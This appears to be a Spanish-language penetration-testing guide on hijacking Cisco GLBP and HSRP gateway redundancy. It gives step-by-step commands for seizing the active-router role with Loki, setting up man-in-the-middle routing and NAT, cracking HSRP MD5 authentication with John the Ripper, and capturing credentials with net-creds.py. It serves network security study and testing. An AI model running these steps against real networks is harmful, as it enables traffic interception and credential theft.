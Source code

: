 # GLBP & HSRP Attacks

## Descripción general del secuestro de FHRP

### Información sobre FHRP

FHRP está diseñado para proporcionar robustez a la red al fusionar múltiples enrutadores en una única unidad virtual, mejorando así la distribución de carga y la tolerancia a fallos. Cisco Systems introdujo protocolos destacados en esta suite, como GLBP y HSRP.

### Información del Protocolo GLBP

La creación de Cisco, GLBP, funciona en la pila TCP/IP, utilizando UDP en el puerto 3222 para la comunicación. Los enrutadores en un grupo GLBP intercambian paquetes "hello" en intervalos de 3 segundos. Si un enrutador no envía estos paquetes durante 10 segundos, se presume que está fuera de línea. Sin embargo, estos temporizadores no son fijos y pueden ser modificados.

### Operaciones y Distribución de Carga de GLBP

GLBP se destaca al permitir la distribución de carga entre enrutadores utilizando una única IP virtual junto con múltiples direcciones MAC virtuales. En un grupo GLBP, cada enrutador participa en el reenvío de paquetes. A diferencia de HSRP/VRRP, GLBP ofrece un equilibrio de carga genuino a través de varios mecanismos:

* **Equilibrio de Carga Dependiente del Host:** Mantiene la asignación de direcciones MAC AVF consistente a un host, esencial para configuraciones NAT estables.
* **Equilibrio de Carga Round-Robin:** El enfoque predeterminado, alternando la asignación de direcciones MAC AVF entre los hosts solicitantes.
* **Equilibrio de Carga Round-Robin Ponderado:** Distribuye la carga en función de métricas de "Peso" predefinidas.

### Componentes Clave y Terminología en GLBP

* **AVG (Puerta de enlace virtual activa):** El enrutador principal, responsable de asignar direcciones MAC a los enrutadores pares.
* **AVF (Reenviador virtual activo):** Un enrutador designado para gestionar el tráfico de red.
* **Prioridad GLBP:** Una métrica que determina el AVG, comenzando en un valor predeterminado de 100 y variando entre 1 y 255.
* **Peso GLBP:** Refleja la carga actual en un enrutador, ajustable manualmente o a través del Seguimiento de Objetos.
* **Dirección IP Virtual GLBP:** Sirve como puerta de enlace predeterminada de la red para todos los dispositivos conectados.

Para las interacciones, GLBP utiliza la dirección multicast reservada 224.0.0.102 y el puerto UDP 3222. Los enrutadores transmiten paquetes "hello" en intervalos de 3 segundos, y se consideran no operativos si se pierde un paquete durante un período de 10 segundos.

### Mecanismo de Ataque GLBP

Un atacante puede convertirse en el enrutador principal enviando un paquete GLBP con el valor de prioridad más alto (255). Esto puede llevar a ataques de DoS o MITM, permitiendo la interceptación o redirección del tráfico.

### Ejecución de un Ataque GLBP con Loki

[Loki](https://github.com/raizo62/loki\_on\_kali) puede realizar un ataque GLBP inyectando un paquete con prioridad y peso establecidos en 255. Los pasos previos al ataque implican recopilar información como la dirección IP virtual, la presencia de autenticación y los valores de prioridad del enrutador utilizando herramientas como Wireshark.

Pasos del Ataque:

1. Cambiar a modo promiscuo y habilitar el reenvío de IP.
2. Identificar el enrutador objetivo y recuperar su IP.
3. Generar un ARP Gratuito.
4. Inyectar un paquete GLBP malicioso, suplantando al AVG.
5. Asignar una dirección IP secundaria a la interfaz de red del atacante, reflejando la IP virtual de GLBP.
6. Implementar SNAT para una visibilidad completa del tráfico.
7. Ajustar el enrutamiento para garantizar el acceso continuo a Internet a través del enrutador AVG original.

Siguiendo estos pasos, el atacante se posiciona como un "hombre en el medio", capaz de interceptar y analizar el tráfico de red, incluidos datos no cifrados o sensibles.

Para fines de demostración, aquí están los fragmentos de comando requeridos:

```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```

### Explicación Pasiva del Secuestro de HSRP con Detalles de Comandos

#### Descripción General de HSRP (Protocolo de Router en Espera/Redundancia)

HSRP es un protocolo propietario de Cisco diseñado para la redundancia de la puerta de enlace de red. Permite la configuración de múltiples routers físicos en una unidad lógica única con una dirección IP compartida. Esta unidad lógica es gestionada por un router principal responsable de dirigir el tráfico. A diferencia de GLBP, que utiliza métricas como prioridad y peso para el equilibrio de carga, HSRP se basa en un único router activo para la gestión del tráfico.

#### Roles y Terminología en HSRP

* **Router Activo de HSRP**: El dispositivo que actúa como la puerta de enlace, gestionando el flujo de tráfico.
* **Router en Espera de HSRP**: Un router de respaldo, listo para tomar el control si el router activo falla.
* **Grupo de HSRP**: Un conjunto de routers que colaboran para formar un único router virtual resistente.
* **Dirección MAC de HSRP**: Una dirección MAC virtual asignada al router lógico en la configuración de HSRP.
* **Dirección IP Virtual de HSRP**: La dirección IP virtual del grupo de HSRP, actuando como la puerta de enlace predeterminada para los dispositivos conectados.

#### Versiones de HSRP

HSRP viene en dos versiones, HSRPv1 y HSRPv2, difiriendo principalmente en capacidad de grupo, uso de IP multicast y estructura de dirección MAC virtual. El protocolo utiliza direcciones IP multicast específicas para el intercambio de información de servicio, con paquetes Hello enviados cada 3 segundos. Se presume que un router está inactivo si no se recibe ningún paquete dentro de un intervalo de 10 segundos.

#### Mecanismo de Ataque de HSRP

Los ataques de HSRP implican tomar el rol del Router Activo de forma forzada mediante la inyección de un valor de prioridad máximo. Esto puede llevar a un ataque de Hombre en el Medio (MITM). Los pasos esenciales previos al ataque incluyen recopilar datos sobre la configuración de HSRP, lo cual se puede hacer utilizando Wireshark para el análisis de tráfico.

#### Pasos para Evadir la Autenticación de HSRP

1. Guardar el tráfico de red que contiene datos de HSRP en un archivo .pcap.

```shell
tcpdump -w hsrp_traffic.pcap
```

2. Extraer los hashes MD5 del archivo .pcap utilizando hsrp2john.py.

```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```

3. Descifrar los hashes MD5 utilizando John the Ripper.

```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Ejecutando la Inyección de HSRP con Loki**

1. Iniciar Loki para identificar los anuncios de HSRP.
2. Configurar la interfaz de red en modo promiscuo y habilitar el reenvío de IP.

```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```

3. Utilizar Loki para apuntar al router específico, ingresar la contraseña de HSRP descifrada y realizar las configuraciones necesarias para hacerse pasar por el Router Activo.
4. Después de obtener el rol del Router Activo, configurar la interfaz de red y las tablas IP para interceptar el tráfico legítimo.

```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

5. Modificar la tabla de enrutamiento para dirigir el tráfico a través del antiguo Router Activo.

```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```

6. Utilizar net-creds.py o una utilidad similar para capturar credenciales del tráfico interceptado.

```shell
sudo python2 net-creds.py -i eth0
```

Al ejecutar estos pasos, el atacante se coloca en una posición para interceptar y manipular el tráfico, similar al procedimiento para el secuestro de GLBP. Esto resalta la vulnerabilidad en protocolos de redundancia como HSRP y la necesidad de medidas de seguridad robustas.
